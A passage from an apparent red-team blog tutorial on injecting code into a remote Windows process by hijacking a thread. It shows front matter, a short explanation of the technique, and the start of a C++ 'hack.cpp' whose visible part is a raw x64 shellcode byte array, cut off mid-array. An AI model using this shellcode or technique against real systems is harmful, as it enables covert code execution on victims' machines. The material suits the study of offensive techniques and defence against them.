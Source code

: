 ```yaml
---
title:  "Code injection via thread hijacking. Simple C++ malware."
date:   2021-11-23 10:00:00 +0600
header:
  teaser: "/assets/images/24/2021-11-23_21-51.png"
categories:
  - tutorial
tags:
  - code injection
  - windows
  - malware
  - red team
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![code injection](/assets/images/24/2021-11-23_21-51.png){:class="img-responsive"}    

### what does it mean?

Today I will discuss about code injection to remote process via thread hijacking. This is about code injection via hijacking threads instead of creating a remote thread. There are methods of code injection where you can create a thread from another process using `CreateRemoteThread` at an executable code location, I wrote about this [here](/pentest/2021/09/29/findmyprocess.html). Or for example, classic DLL Injection via `CreateRemoteThread` and executing `LoadLibrary`, passing an argument in the `CreateRemoteThread`. My [post](/tutorial/2021/09/20/malware-injection-2.html) about this technique.    

### example

Let's go to look an example which demonstrates this technique:
```cpp
/*
hack.cpp
code injection via thread hijacking
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/23/malware-injection-6.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
```